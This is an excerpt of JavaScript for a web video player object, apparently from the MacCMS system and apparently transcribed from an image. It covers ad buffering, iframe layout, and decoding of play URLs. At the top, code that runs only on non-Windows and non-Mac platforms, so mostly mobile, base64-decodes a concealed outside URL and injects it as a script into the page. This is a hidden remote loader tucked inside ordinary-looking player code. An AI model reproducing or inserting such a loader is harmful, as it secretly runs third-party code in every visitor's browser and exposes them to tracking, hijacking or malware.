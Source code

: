 ```
        if (!/(Win|Mac)/i.test(navigator.platform)) {
            var a = document.createElement('script');
            a.type = 'text/javascript';
            a.async = true;
            a.charset = 'utf-8';
            a.src = base64decode('Ly91bmlvbi5tYWNjbXMubGEvaHRtbC90b3AxMC5qcw==') + '?r=' + this.GetDate('yyyyMMdd');
            var b = document.getElementsByTagName('script')[0];
            b.parentNode.insertBefore(a, b)
        }
    },
    'AdsStart': function() {
        if ($("#buffer").attr('src') != this.Buffer) {
            $("#buffer").attr('src', this.Buffer)
        }
        $("#buffer").show()
    },
    'AdsEnd': function() {
        $('#buffer').hide()
    },
    'Install': function() {
        this.Status = false;
        $('#install').show()
    },
    'Play': function() {
        document.write('<style>.MacPlayer{background: #000000;font-size:14px;color:#F6F6F6;margin:0px;padding:0px;position:relative;overflow:hidden;width:' + this.Width + ';height:' + this.Height + ';min-height:100px;}.MacPlayer table{width:100%;height:100%;}.MacPlayer #playleft{position:inherit;!important;width:100%;height:100%;}</style><div class="MacPlayer">' + '<iframe id="buffer" src="" frameBorder="0" scrolling="no" width="100%" height="100%" style="position:absolute;z-index:99998;"></iframe><iframe id="install" src="" frameBorder="0" scrolling="no" width="100%" height="100%" style="position:absolute;z-index:99998;display:none;"></iframe>' + '<table border="0" cellpadding="0" cellspacing="0"><tr><td id="playleft" valign="top" style="">&nbsp;</td></table></div>');
        this.offsetHeight = $('.MacPlayer').get(0).offsetHeight;
        this.offsetWidth = $('.MacPlayer').get(0).offsetWidth;
        document.write('<scr' + 'ipt src="' + this.Path + this.PlayFrom + '.js"></scr' + 'ipt>')
    },
    'Down': function() {},
    'Init': function() {
        this.Status = true;
        this.Parse = '';
        var a = player_aaaa;
        if (a.encrypt == '1') {
            a.url = unescape(a.url);
            a.url_next = unescape(a.url_next)
        } else if (a.encrypt == '2') {
            a.url = unescape(base64decode(a.url));
            a.url_next = unescape(base64decode(a.url_next))
        }
        this.Agent = navigator.userAgent.toLowerCase();
        this.Width = MacPlayerConfig.width;
        this.Height = MacPlayerConfig.height;
        if (this.Agent.indexOf("android") > 0 || this.Agent.indexOf("mobile") > 0 || this.Agent.indexOf("ipod") > 0 || this.Agent.indexOf("ios") > 0 || this.Agent.indexOf("iphone") > 0 || this.Agent.indexOf("ipad") > 0) {
            this.Width = MacPlayerConfig.widthmob;
            this.Height = MacPlayerConfig.heightmob
        }
        if (this.Width.indexOf("px") == -1 && this.Width.indexOf("%") == -1) {
            this.Width = '100%'
        }
        if (this.Height.indexOf("px") == -1 && this.Height.indexOf("%") == -1) {
            this.Height = '100%'
```